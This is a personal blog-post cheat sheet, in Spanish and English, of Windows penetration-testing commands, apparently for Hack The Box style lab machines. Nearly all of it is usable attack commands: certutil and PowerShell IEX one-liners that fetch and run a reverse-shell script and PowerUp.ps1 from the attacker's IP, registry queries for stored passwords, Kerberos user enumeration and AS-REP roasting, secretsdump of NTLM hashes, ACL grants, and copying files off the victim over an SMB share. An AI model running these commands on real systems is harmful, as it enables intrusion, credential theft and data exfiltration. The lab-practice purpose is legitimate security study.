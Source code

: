 ```yaml
---
layout: post
title: "Windows"
author: "TheusZero"
subtitle: 'Codigos mas usados'
header-img: "images/408a7d24f9d2e3e22990cc4629163cf2.png"
catalog: true
comments: true
---
```

## Windows

#### download a file

```Python
certutil.exe -f -urlcache -split http://myIpAdress/theBinary.exe thebinary.exe
```

#### powershell

```Python
start /b powershell IEX(New-Object Net.webClient).downloadString('http://miIp/Invoke-PowerShellTcp.ps1')
```

**utilizar este ya que el anterior puede dar falsos positivos**
```Python
start /b C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.webClient).downloadString('http://miIp/Invoke-PowerShellTcp.ps1')
```

#### smb && rpc

```Python
nmap -v -script smb-vuln* -p 139,445 10.10.10.4
```

```Python
smbmap -u jsmith -p password1 -d workgroup -H 192.168.0.1
```

```Python
sudo smbclient -L //<HOST_IP_OR_NAME> -U <USERNAME%PASSWORD>

sudo smbclient -L //<HOST_IP_OR_NAME> -U <USERNAME%PASSOWRD> -g | grep Disk | cut -f 1 -d '|'
## LIST only the names of the shared Disk
```

```Python
rpcclient -U username ip
```

#### ver permisos de ejecucion y como se ejecuta (tipo SUID)

```Python
PS C:\Users\Public\Desktop> $sh = New-Object -ComObject Wscript.Shell
PS C:\Users\Public\Desktop> $target = $sh.CreateShortcut('C:\Users\Public\Desktop\theprogram')
PS C:\Users\Public\Desktop> echo $target
```

#### obtencion de passwords
```Python
reg query HKLM /f  password /t REG_SZ /s

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul |findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

#### cacls (access control list)
permisos para cada usuario, donde F es Full privilegios

```Python
cacls Administrator
```

```Python
cacls root.txt /grant TheUserMY:F
Y (yes)
```

#### winexe
ya cuando tenemos el tunnel hecho
```Python
winexe -U Administrator //127.0.0.1 "cmd.exe"
```

#### netstat
recordar el exploit zzz para el samba
```Python
netstat -nat
```

#### dns

```Python
dig axfr @ip dns
```

```Python
ldapsearch -x -h IpVictima -s base namingcontexts
```

#### kerberos

```Python
kerbrute userenum -d DNS /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc IP
```

```Python
python3 GetNPUsers.py DNS/ -usersfile users.txt -dc-ip IP -format john -outputfile hashes.txt
```

#### svc_loanmgr

con el nombre busque en google tal cual **svc_loanmgr privilage escalation** y encontre lo siguiente:

> [https://www.puckiestyle.nl/aclpwn-py/](https://www.puckiestyle.nl/aclpwn-py/)

> [https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)

#### secret dump 
```Python
secretsdump.py -just-dc-ntlm DNS/USER:"PASSWORD"@IP
```

#### rottenPotato
SeImpersonatePrivilege token, which means that this machine is going to be vulnerable to the RottenPotato exploit
[RottenPotato](https://github.com/ohpe/juicy-potato/releases)

aplication:

[here!](https://codewithnoah.com/posts/htb-walkthrough-jeeves)

[hackthebox machine espanol](https://www.youtube.com/watch?v=wvWxXKKFifQ&feature=youtu.be)

#### powerSploit
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

powersploit tiene un modulo para el privesec llamado **PowerUp.ps1**

> mismo principio de la powershell, se coloca esta linea al final del documento
```Python
Invoke-AllChecks
```

luego:

```Python
IEX(New-Object Net.WebClient).downloadString('http://myIp:8000/PowerUp.ps1')
```

#### descargar archivos desde la maquina

desde mi maquina de atacante debo crear un recurso compartido

```Python
impacket-smbserver smbFolder $(pwd)
```

desde la maquina windows que esta siendo atacada usando una poweshell y usando una utilidad de la misma realizamos la sincronizacion con mi equipo

```Python
New-PSDrive -Name "SharedFolder" -PSProvider "FileSystem" -Root "\\MYIP\smbFolder"
```

```Python
copy text.txt SharedFolder:\text.txt
```

## Herramientas

[nishang](https://github.com/samratashok/nishang)

[windows exploit suggester bacan](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

[weseng](https://github.com/bitsadmin/wesng)

[Chimichurri](https://github.com/Re4son/Chimichurri)

## Link Interesantes

> [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)

#### USM

> [Malla-Interactiva-USM](https://mallas.labcomp.cl/?m=TEL)

> [Lab-Redes](http://www2.elo.utfsm.cl/~tel241/20102s/)

#### Other

> [ExploitDB](https://www.exploit-db.com/)

> [Campo de Marte](https://www.campodemarte.cl/)

> [CTFtime](https://ctftime.org/)

> [Escritura Exploits (Español)](https://fundacion-sadosky.github.io/guia-escritura-exploits/)